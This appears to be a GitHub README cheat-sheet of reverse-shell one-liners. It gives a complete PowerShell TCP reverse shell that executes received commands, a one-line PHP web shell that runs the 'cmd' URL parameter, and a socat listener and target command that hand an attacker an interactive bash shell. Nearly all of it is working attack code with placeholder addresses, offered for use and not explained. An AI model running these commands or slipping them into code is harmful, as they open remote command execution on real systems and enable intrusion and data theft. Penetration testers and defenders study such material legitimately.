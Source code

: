 # reverse-shells
Reverse shells and one-liners

# Powershell
  * powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# PHP
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

# Socat
  - Attacker:
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
  - Target:
```
socat TCP:<attacker-ip>:<attacker-lport> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

